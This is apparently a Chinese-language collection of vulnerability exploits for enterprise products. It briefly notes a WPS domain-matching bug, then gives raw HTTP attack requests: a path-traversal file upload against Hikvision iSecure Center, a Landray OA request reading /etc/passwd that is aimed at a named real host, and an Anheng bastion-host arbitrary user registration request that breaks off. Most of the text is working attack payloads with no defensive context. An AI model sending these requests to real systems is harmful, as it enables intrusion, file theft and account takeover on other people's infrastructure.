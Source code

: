 在1.html当前路径下启动http server并监听80端口，修改hosts文件（测试写死的） 

漏洞触发需让域名规则满足clientweb.docer.wps.cn.{xxxxx}wps.cn cloudwps.cn和wps.cn没有任何关系

代码块在底下。（需要原pdf加wechat）

## 海康威视

HIKVISION iSecure Center综合安防管理平台文件上传

POST请求包

POST /center/api/files;.js HTTP/1.1

Host: x.x.x.x

User-Agent: python-requests/2.31.0

Accept-Encoding: gzip, deflate

Accept: */*

Connection: close

Content-Length: 258

Content-Type:multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4

Content-Disposition:form-data;name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/2BT5AV96QW.txt"

Content-Type: application/octet-stream

9YPQ3I3ZS

##  蓝凌OA

前台代码执行

POST/sys/ui/extend/varkind/custom.jsp HTTP/1.1

Host: www.ynjd.cn:801

User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)

Accept: */*

Connection: Keep-Alive

Content-Length: 42

Content-Type:application/x-www-form-urlencoded

var={"body":{"file":"file:///etc/passwd"}}

##  安恒明御运维审计与风险控制系统堡垒机任意用户注册

POST/service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
